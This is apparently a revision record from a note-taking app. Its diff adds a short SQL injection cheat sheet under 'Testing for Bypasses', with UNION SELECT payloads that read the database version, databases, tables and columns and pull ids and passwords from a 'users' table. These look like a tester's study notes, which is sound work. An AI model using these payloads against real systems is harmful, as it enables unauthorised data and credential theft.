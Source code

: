 id: dc6dfce8678146a19e9a1e06761ba30d
parent_id: ffd9652d32f74dcb9951a18a1b1ee02b
item_type: 1
item_id: 576469a387224b88b3c2ffcd806a2cdf
item_updated_time: 1651510660899
title_diff: "[]"
body_diff: "[{\"diffs\":[[1,\"# \"],[0,\"Testing for Bypasses\"]],\"start1\":0,\"start2\":0,\"length1\":20,\"length2\":22},{\"diffs\":[[0,\"'1'='1\\\n\\\n\"],[1,\"# Basic Tests\\\n\\\n## Check for the SQL Version\\\n\\\n'UNION SELECT @@version,2--;\\\n\\\n## Check for the DBs available\\\n\\\n\\\\# Change the value '1' to view the different names\\\n\\\n'UNION SELECT DB_NAME(1),2--;\\\n\\\n## Verify the number of Columns\\\n\\\n\\\\# Keep adjusting the number till we obtain a value that the webpage doesn't fail\\\n\\\n'UNION SELECT 1--; # Fails\\\n\\\n'UNION SELECT 1,2--; # We got output with 2 columns\\\n\\\n## Check the table names\\\n\\\n'UNION SELECT TABLE\\\\_NAME,2 FROM information\\\\_schema.TABLES--;\\\n\\\n## Extract the Column data of a particular Database of Interest\\\n\\\n'UNION SELECT name,NULL FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')--;\\\n\\\n## Extract Information from 'Users' Table\\\n\\\n'UNION SELECT id,NULL FROM users--; # Obtain id numbers\\\n\\\n'UNION SELECT id,NULL FROM users--; # Obtain Name\\\n\\\n'UNION SELECT pass,NULL FROM users--; # Obtain password\\\n\\\n\"],[0,\"# SQLMAP\"]],\"start1\":304,\"start2\":304,\"length1\":16,\"length2\":870}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-16T02:23:25.306Z
created_time: 2022-05-16T02:23:25.306Z
type_: 13